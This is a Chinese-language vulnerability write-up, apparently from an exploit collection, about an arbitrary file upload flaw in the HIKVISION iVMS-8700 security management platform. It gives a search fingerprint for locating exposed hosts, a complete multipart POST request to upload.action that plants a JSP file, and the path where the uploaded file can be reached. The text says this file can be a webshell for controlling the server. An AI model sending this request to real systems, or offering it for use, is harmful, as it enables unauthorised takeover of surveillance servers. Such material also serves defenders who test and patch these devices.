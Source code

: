 # HIKVISION iVMS-8700综合安防管理平台 upload.action 任意文件上传漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器

## 漏洞影响

HIKVISION iVMS-8700综合安防管理平台

## 网络测绘

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面

![image-20230704111156427](./images/image-20230704111156427.png)

发送请求包上传文件

```
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0F207A6372FE883ACA78B74E6DC953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D808BE7BE0E5C7047B9688E6009F710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

上传路径

![image-20230704111213114](./images/image-20230704111213114.png)

```
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

![image-20230704111225074](./images/image-20230704111225074.png)